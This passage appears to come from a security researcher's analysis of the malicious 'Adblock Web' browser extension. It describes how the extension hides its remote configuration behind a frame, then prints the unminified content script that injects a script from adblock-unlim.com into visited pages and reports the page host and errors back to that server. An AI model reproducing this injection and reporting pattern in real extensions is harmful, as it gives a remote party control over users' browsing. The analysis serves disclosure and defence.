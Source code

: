 ### Giving a remote server full control over visited websites

Compared to Ad-Blocker, Adblock Web is rather subtle about its malicious functionality. It no longer relaxes the [default Content Security Policy](https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/Content_Security_Policy#default_content_security_policy) to load remote code into the extension, this would have been too suspicious. But it still has the capability to inject arbitrary JavaScript code into any website you visit.

For that it loads its configuration from `https://adblock-unlim.com/api/custom-rules/`. If you think that “loads” here means `XMLHttpRequest` or something similar: no, that’s not it. It loads the page in a frame, sends it a message and parses the response as JSON. I can only imagine one reason for this complicated approach: if someone were to open this address in the browser manually, they would only see an unsuspicious blank page.

A content script in the extension then contains the following code working with this configuration (unminified and minimally simplified here):

```js
ext.backgroundPage.sendMessage({ action: "get_qa_rules" }, function (config) {
  var dummy = null;
  var url = "https://adblock-unlim.com/qa_metric/?type=fail&fr=";
  var dummy2 = 0;
  const fallbackUrl = chrome.runtime.getURL("/libs/qa-params-v1.0.1.min.js");
  try {
    if (!config)
      return;
    if (!config.traceUrl || !config.extStat)
      return;
    if (config.rAllow &&
        !new RegExp(config.rAllow[0], config.rAllow[1]).test(location.href))
      return;
    if (config.rDeny) {
      if (new RegExp(config.rDeny[0], config.rDeny[1]).test(location.href))
        return;
      url = "";
      if (config && config.qaParams)
        url = config.qaParams.failPrefix;
    }
    var now = performance.now();
    config.traceUrl;
    var script = document.createElement("script");
    script.type = "text/javascript";
    script.async = true;
    script.src = url ?
        url + "?fr=" + dummy :
        (fallbackUrl.match(/^\/\//) && e.location.protocol, fallbackUrl);
    document.body.appendChild(script);
  }
  catch (error) {
    if (url.match("^https?://"))
      fetch(url + "?ts=" + now + "&te=" + dummy2 + "&ts=" + data.timestamp +
          "&d=" + location.host + "&fr" + error.message);
  }
});
```
